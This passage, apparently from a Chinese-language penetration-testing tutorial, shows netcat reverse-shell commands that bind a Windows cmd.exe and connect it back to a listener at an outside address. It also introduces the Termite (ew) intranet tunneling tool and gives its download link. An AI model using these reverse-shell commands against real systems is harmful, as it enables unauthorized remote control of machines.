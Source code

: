 Win10

![](./image/wps10.jpg) 

方法2、REMOTE主机绑定SHELL并反向连接

在公网监听

nc -lp 5555

在内网机器反弹

nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354

或者

nc -t -e cmd 192.168.153.140 5555

讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

Win10

![](./image/wps11.jpg) 

03

![](./image/wps12.jpg) 

 

 

 

 

 

 

 

 

 

# Termite（白蚁）工具使用

原名ew（内网穿透工具）

程序地址, http://rootkiter.com/Termite/
